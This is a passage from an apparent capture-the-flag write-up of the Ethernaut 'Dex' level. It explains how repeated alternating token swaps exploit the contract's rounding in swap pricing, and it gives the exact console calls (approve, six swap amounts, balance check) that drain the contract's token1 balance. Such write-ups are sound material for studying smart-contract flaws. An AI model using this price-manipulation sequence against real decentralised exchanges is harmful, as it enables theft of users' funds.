 During the sixth swap, we only swap `45 token2` because if we swap more than 45 then swapAmount will be more than the Dex contract balance. Suppose we swap `50 token2` then we will get swapAmount as `(50*110/45)=122` `122 token1` which means in return we will get `122 token2` but the Dex contract only has `110 token2`. So it will revert if we try to swap more than `45 token2` in the last call.

Now lets exploit the contract.

Before calling swap() function we need to make sure that we have allowed the Dex contract to send tokens on our behalf because when we swap token1 for token2 we are sending our token1 to the Dex contract and the Dex contract will send us token2. But we are not directly transfering the ether instead the Dex contract uses transferFrom() to receive our tokens.

`IERC20(from).transferFrom(msg.sender, address(this), amount)` you can find this line in swap() function.

Now it's time to open the console. Open **Dex** challenge and enter `ctrl`+`shift`+`j` to open the console.

```javascript
> await contract.approve(contract.address,1000)
```

```javascript
> token1=await contract.token1()
> token2=await contract.token2()
```

```javascript
> await contract.swap(token1,token2,10)
```

```javascript
> await contract.swap(token2,token1,20)
```

```javascript
> await contract.swap(token1,token2,24)
```

```javascript
> await contract.swap(token2,token1,30)
```

```javascript
> await contract.swap(token1,token2,41)
```

```javascript
> await contract.swap(token2,token1,45)
```

Once the above calls are done the Dex contracts token1 balance will be zero. We can verify it by the following.

```javascript
> (await contract.balanceOf(token1,contract.address)).toString()
```

Now you can submit the level instance.

<p style="text-align:center;">***Hope you enjoyed this write-up. Keep on hacking and learning!***</p>
